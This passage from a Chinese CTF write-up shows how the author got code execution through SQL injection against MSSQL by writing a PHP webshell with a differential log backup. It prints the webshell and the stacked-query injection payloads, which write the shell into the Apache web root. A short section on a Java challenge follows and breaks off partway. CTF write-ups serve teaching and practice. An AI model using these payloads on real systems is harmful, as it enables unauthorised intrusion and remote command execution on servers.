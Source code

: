 通过我的注释你可以看出来我尝试了很多东西，因为xp_cmdshell这个功能不能用，导致没法直接使用系统命令

Ad Hoc Distributed Queries和clr都特别繁琐，放弃尝试

再查找可以找到一个叫做差异备份写🐎的玩法，可以自行查询

这里有一个小坑，差异备份可以 backup database或者 backup log，这两个东西都可以写入文件。

还有一个小坑，需要确定网站目录在哪里，写入进去才可以被访问

-*分界线*-

我们通过访问网站上随机名字的网页获得404信息，得知网站运行在Apache Debian系统，默认网站根目录为/var/www/html

尝试写🐎

发现backup database貌似没生成文件（网上差异备份很多都用back database）

查到一个backup log的，写payload

(这里insert被过滤，发现INSERT没有被过滤)

这里database名字可以注入查询出来，GitHub上payloadsAlltheThings都有，找对应的数据库类型

这里创建的表中类型为image，也有用text类型的不过是用在database备份上，我觉得应该是最后存在文件里被打开的编码能被解出来php马就行

写马
```php
<?php system($_GET['sh']) //执行get到的sh的值
```

```
2;ALTERdatabasectfsetRECOVERYFULL;

2;CREATEtable[dbo].azhe9(aimage)--

2;INSERTINTOdbo.azhe9(a)values(0x3c3f7068702073797374656d28245f4745545b277368275d293b3f3e)--

2;DECLARE@dvarchar(255)SET@d=0x2f7661722f7777772f68746d6c2f686f7273652e62616bBACKUPDATABASEctfTODISK=@d;--

2;DECLARE@dvarchar(255)SET@d=0x2f7661722f7777772f68746d6c2f686f7273652e706870BACKUPLOGctfTODISK=@dWITHINIT;--
```

咨询出题人我的shell 403，出题人说刷新一下index就行，为啥捏，神奇

在马的地方尝试 cat /flag，无回显，尝试ls发现为 f1ag，再次cat，获得flag

---

## minijava <a name="minijava"></a>

题目给出附件，是一个jar文件，作为java零基础，需要从头学习java😭

配置一下java环境，配了8，17，20，可以给他们分别定义环境变量，然后再定义一个JAVA_HOME = %JAVA_HOME8% （java8为例），然后在path里 %JAVA_HOME%/bin，然后删掉以前玩mc还是啥被瞎配的bin（折腾了好久）环境变量

可以给jar文件用7z解压缩出来，目的是解压缩出来pom.xaml
